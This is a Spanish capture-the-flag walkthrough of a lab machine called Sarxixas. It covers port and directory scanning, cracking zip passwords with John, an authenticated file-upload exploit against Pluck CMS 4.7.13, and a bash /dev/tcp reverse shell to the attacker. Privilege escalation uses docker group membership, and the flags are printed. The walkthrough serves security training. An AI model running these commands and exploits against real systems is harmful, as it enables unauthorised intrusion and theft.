

**Plataforma:** The Hackers Labs\
**Sistema Operativo:** Linux

> **Tags:** `Linux` `Pluck CMS` `RCE` `Zip Cracking` `John` `Base58` `Docker` `Group Permission`

## INSTALACIÓN

Descargamos el archivo `zip` que contiene la `.ova` de la máquina Sarxixas, lo extraemos y la importamos en VirtualBox.

Configuramos la interfaz de red de la máquina Sarxixas y la iniciamos junto a nuestra máquina atacante.

## RECONOCIMIENTO DE HOSTS

En este punto, aún desconocemos la dirección `IP` asignada a la máquina, por lo que procedemos a descubrirla:

```bash
netdiscover -i eth1 -r 10.0.0.0/16
```

Info:

```
Currently scanning: 10.0.0.0/16   |   Screen View: Unique Hosts               
                                                                               
 4 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 240               
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 10.0.4.1        52:54:00:12:35:00      1      60  Unknown vendor              
 10.0.4.2        52:54:00:12:35:00      1      60  Unknown vendor              
 10.0.4.3        08:00:27:6f:3d:92      1      60  PCS Systemtechnik GmbH      
 10.0.4.92       08:00:27:80:8c:91      1      60  PCS Systemtechnik GmbH
```

Identificamos con seguridad que la `IP` de la víctima es `10.0.4.92`.

## ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para identificar qué puertos están abiertos, seguido de un escaneo más exhaustivo para enumerar las versiones y servicios que corren en ellos.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 10.0.4.92
```

```bash
nmap -n -Pn -sCV -p22,80 --min-rate 5000 10.0.4.92
```

Info:

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-12 20:05 +0100
Nmap scan report for 10.0.4.92
Host is up (0.00021s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 9c:e0:78:67:d7:63:23:da:f5:e3:8a:77:00:60:6e:76 (ECDSA)
|_  256 4b:30:12:97:4b:5c:47:11:3c:aa:0b:68:0e:b2:01:1b (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-robots.txt: 2 disallowed entries 
|_/data/ /docs/
|_http-generator: pluck 4.7.13
| http-title: sarxixas - sarxixas
|_Requested resource was http://10.0.4.92/?file=sarxixas
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 08:00:27:85:19:0C (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.14 seconds
```

Añadimos el dominio a nuestro archivo `/etc/hosts` para asegurar la correcta resolución.

```bash
sudo nano /etc/hosts
```

```
127.0.0.1	localhost
127.0.1.1	kali
10.0.4.92   sarxixas.thl
# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Identificamos los puertos `22` (SSH) y `80` (HTTP) abiertos.

Vemos que el servicio web está corriendo un CMS llamado `Pluck` en su versión `4.7.13`.



Buscamos vulnerabilidades conocidas para esta versión específica utilizando `searchsploit`.

```bash
searchsploit pluck 4.7.13
```

Info:

```
---------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                      |  Path
---------------------------------------------------------------------------------------------------- ---------------------------------
Pluck CMS 4.7.13 - File Upload Remote Code Execution (Authenticated)                                | php/webapps/49909.py
---------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

Encontramos un exploit que permite `File Upload RCE`, pero requiere estar autenticados.

## GOBUSTER

Procedemos a realizar `fuzzing` de directorios y archivos para encontrar posibles fugas de información.

```bash
gobuster dir -u http://sarxixas.thl -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x html,zip,php,txt,bak,sh,asp,aspx -b 403,404 -t 60
```

Info:

```
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://sarxixas.thl
[+] Method:                  GET
[+] Threads:                 60
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.8
[+] Extensions:              php,txt,bak,sh,asp,aspx,html,zip
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 302) [Size: 0] [--> http://sarxixas.thl/?file=sarxixas]
/images               (Status: 301) [Size: 313] [--> http://sarxixas.thl/images/]
/login.php            (Status: 200) [Size: 1247]
/docs                 (Status: 301) [Size: 311] [--> http://sarxixas.thl/docs/]
/files                (Status: 301) [Size: 312] [--> http://sarxixas.thl/files/]
/data                 (Status: 301) [Size: 311] [--> http://sarxixas.thl/data/]
/admin.php            (Status: 200) [Size: 3758]
/api                  (Status: 301) [Size: 310] [--> http://sarxixas.thl/api/]
/robots.txt           (Status: 200) [Size: 47]
/requirements.php     (Status: 200) [Size: 3770]
Progress: 200209 / 1985022 (10.09%)
```

Descubrimos el directorio `/api`, dentro del cual encontramos un archivo comprimido llamado `HostiaPilotes.zip`.

Lo descargamos e intentamos descomprimirlo, pero requiere una contraseña.

## CRACKING

El archivo está protegido por contraseña. Extraemos el `hash` utilizando `zip2john`.

```bash
zip2john HostiaPilotes.zip > hash.txt
```

Utilizamos `John the Ripper` con el diccionario `rockyou.txt` para crackearlo.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
babybaby         (HostiaPilotes.zip/HostiaPilotes/contraseña.txt)     
1g 0:00:00:00 DONE (2026-02-12 20:27) 50.00g/s 204800p/s 204800c/s 204800C/s 123456..oooooo
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

La contraseña del archivo es `babybaby`. Leemos el contenido del fichero extraído.

```bash
cat contraseña.txt
```

Info:

```
ElAbueloDeLaAnitta  
```

## EXPLOTACIÓN (RCE)

Con la contraseña `ElAbueloDeLaAnitta` logramos acceder al panel de administración de `Pluck`.


Ahora que estamos autenticados, podemos utilizar el `exploit` identificado anteriormente para subir una `webshell`.

```bash
cp /usr/share/exploitdb/exploits/php/webapps/49909.py .
chmod +x 49909.py
```

Ejecutamos el `script` apuntando a la máquina víctima.

```bash
python3 49909.py sarxixas.thl 80 ElAbueloDeLaAnitta /
```

Info:

```
Authentification was succesfull, uploading webshell

Uploaded Webshell to: http://sarxixas.thl:80//files/shell.phar
```

El exploit ha funcionado y nos proporciona una ruta donde se ha subido la shell. Accedemos a la `webshell`.


El siguiente paso es entablar una `reverse shell`.

Primero ponemos un `listener` en nuestra máquina atacante.

```bash
sudo nc -nlvp 4444
```

Ejecutamos el siguiente comando desde la `webshell`:

```bash
bash -c 'bash -i >& /dev/tcp/10.0.4.12/4444 0>&1'
```

Info:

```
listening on [any] 4444 ...
connect to [10.0.4.12] from (UNKNOWN) [10.0.4.92] 48944
bash: cannot set terminal process group (503): Inappropriate ioctl for device
bash: no job control in this shell
www-data@sarxixas:/var/www/html/files$
```

Recibimos la shell como usuario `www-data`.

## TTY

Antes de buscar vectores de escalada de privilegios, vamos a hacer un tratamiento de `TTY` para tener una shell más interactiva, con los siguientes comandos:

```bash
script /dev/null -c bash
```

`ctrl Z`

```bash
stty raw -echo; fg
```

```bash
reset xterm
```

```bash
export TERM=xterm
```

```bash
export BASH=bash
```

## MOVIMIENTO LATERAL

Enumerando el sistema, encontramos un archivo interesante en el directorio `/opt` llamado `edropedropedrooo.zip`.

Procedemos a transferirlo a nuestra máquina atacante para analizarlo.

Levantamos un servidor `HTTP` con `Python` en la víctima.

```bash
python3 -m http.server 4443
```

Descargamos el archivo desde nuestra máquina.

```bash
wget http://sarxixas.thl:4443/edropedropedrooo.zip .
```

Info:

```
--2026-02-12 20:43:41--  http://sarxixas.thl:4443/edropedropedrooo.zip
Resolving sarxixas.thl (sarxixas.thl)... 10.0.4.92
Connecting to sarxixas.thl (sarxixas.thl)|10.0.4.92|:4443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 242 [application/zip]
Saving to: ‘edropedropedrooo.zip’

edropedropedrooo.zip                             100%[==========================================================================================================>]     242  --.-KB/s    in 0s      

2026-02-12 20:43:41 (59.3 MB/s) - ‘edropedropedrooo.zip’ saved [242/242]
```

Nuevamente, extraemos el `hash` y utilizamos `John` para obtener la contraseña.

```bash
zip2john edropedropedrooo.zip > hash.txt
```

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
cassandra        (edropedropedrooo.zip/pedropedropedrooo.txt)     
1g 0:00:00:00 DONE (2026-02-12 20:43) 50.00g/s 204800p/s 204800c/s 204800C/s 123456..oooooo
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

La contraseña del `.zip` es `cassandra`. Descomprimimos y leemos el contenido.

```bash
unzip edropedropedrooo.zip
```

```bash
cat pedropedropedrooo.txt
```

Info:

```
3HBRD7XyxF5gAbkMmnWdW
```

Obtenemos una cadena codificada en `Base58`. La decodificamos:

```bash
echo '3HBRD7XyxF5gAbkMmnWdW' | base58 -d
```

Info:

```
Quepasaolvidona
```

Identificamos los usuarios del sistema para ver a quién puede pertenecer esta credencial.

```bash
cat /etc/passwd | grep 'sh'
```

Info:

```
root:x:0:0:root:/root:/bin/bash
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
sarxixa:x:1000:1002:concebolla,,,:/home/sarxixa:/bin/bash
```

Intentamos acceder con el usuario `sarxixa`. Al probar la contraseña decodificada `Quepasaolvidona`, nos da error, pero probando con una pequeña variación (eliminando la primera letra), `uepasaolvidona`, conseguimos acceder.

```bash
su sarxixa
```

## ESCALADA DE PRIVILEGIOS

Comprobamos los `grupos` a los que pertenece el usuario.

```bash
id
```

Info:

```
uid=1000(sarxixa) gid=1002(sarxixa) grupos=1002(sarxixa),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),1001(docker)
```

Pertenecemos al `grupo docker`. Consultando `GTFOBins`, vemos que podemos montar el sistema de archivos raíz en un contenedor y acceder a él como `root`.

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt /bin/sh
```

Info:

```
Unable to find image 'alpine:latest' locally --rm -it alpine chroot /mnt /bin/sh 
latest: Pulling from library/alpine
589002ba0eae: Pull complete 
Digest: sha256:25109184c71bdad752c8312a8623239686a9a2071e8825f20acb8f2198c3f659
Status: Downloaded newer image for alpine:latest
# whoami
root
```

Ya somos root!

Por último, obtenemos las `flags` de usuario y root.

```
# cat /home/sarxixa/user.txt
d7a4cf4ac8cbabd2adcfde5b883ecf06
# cat /root/root.txt
e84b0c633b9749b00eace3483a09c49c
```
